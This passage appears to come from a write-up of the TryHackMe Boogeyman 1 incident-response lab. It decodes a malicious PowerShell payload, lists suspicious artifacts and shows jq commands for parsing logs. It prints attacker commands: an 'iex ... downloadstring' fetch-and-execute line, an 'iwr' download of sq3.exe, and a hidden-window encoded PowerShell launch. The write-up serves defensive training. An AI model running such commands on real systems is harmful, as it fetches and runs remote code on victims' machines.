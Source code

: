 - Decoded using CyberChef with 'From Base64' and 'Remove null bytes':  
  - Result: `iex (new-object net.webclient).downloadstring('http://[redacted]/update')`  
  - **Purpose**: The decoded PowerShell command uses `Invoke-Expression` (`iex`) to execute a script downloaded from `http://[redacted]/update` using the `net.webclient` object, likely retrieving and running malicious code.

**Notes**:  
- The purpose of the downloaded script requires further investigation to understand its full impact.

---

## Endpoint Investigation

**PowerShell Artifacts**:  
- Found in `powershell.json` within the Artefacts folder:  
  - Suspicious GitHub URL: [redacted]/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Seatbelt[.]ps1  
    - **Purpose**: References `Invoke-Seatbelt`, a PowerShell tool for system enumeration, possibly used by the attacker.

- Suspicious command:  
  - `iwr [redacted]/sq3[.]exe -outfile sq3[.]exe;pwd`  
    - **Purpose**: Uses `Invoke-WebRequest` (`iwr`) to download `sq3.exe` from the malicious domain and saves it as `sq3.exe`. The `pwd` command outputs the current working directory.

**Extracted Domains (Defanged)**:  
- [redacted].xyz  
- [redacted].xyz

**Additional Findings**:  
- File path: `C:\Users\[redacted]\Documents\protected_data.kdbx;pwd`  
  - **Purpose**: Indicates a KeePass database file (`protected_data.kdbx`) and the `pwd` command, likely used to verify the current directory.

- Encoded PowerShell command:  
  - `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -windowstyle hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABiAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAd`  
  - **Purpose**: An encoded PowerShell command, likely executing a downloaded script in a hidden window, similar to the .lnk file’s command.

**Commands for Parsing `powershell.json`**:  
- Note: The TryHackMe Boogeyman 1 room provided the `{}` syntax for `jq` filtering. I selected the specific field names (`path`, `ContextInfo`, `ScriptBlockText`, and `ContextInfo, ScriptBlockText`) to extract relevant data, enabling targeted analysis of file paths, context, and script content.  
- `cat powershell.json | jq '{path}'`  
  - **Purpose**: Extracts the `path` field from `powershell.json` using `jq` to identify file paths in the logs.

- `cat powershell.json | jq '{ContextInfo}'`  
  - **Purpose**: Extracts the `ContextInfo` field, providing contextual details about PowerShell execution (e.g., user or process information).

- `cat powershell.json | jq '{ScriptBlockText}'`  
  - **Purpose**: Extracts the `ScriptBlockText` field, revealing the executed PowerShell script content.
